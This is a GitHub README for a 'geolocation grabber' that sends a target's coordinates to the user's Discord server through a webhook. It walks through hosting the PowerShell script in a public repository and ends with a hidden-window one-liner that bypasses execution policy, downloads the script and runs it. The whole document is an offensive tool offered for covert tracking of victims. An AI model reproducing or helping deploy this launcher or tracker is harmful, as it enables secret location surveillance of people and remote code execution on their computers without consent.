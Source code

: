 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
 https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true
<p>click geolocationgraber.ps1.txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2" width="350" title="hover text"> <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3" width="350" title="hover text"> <p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4" width="350" title="hover text"> <p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  
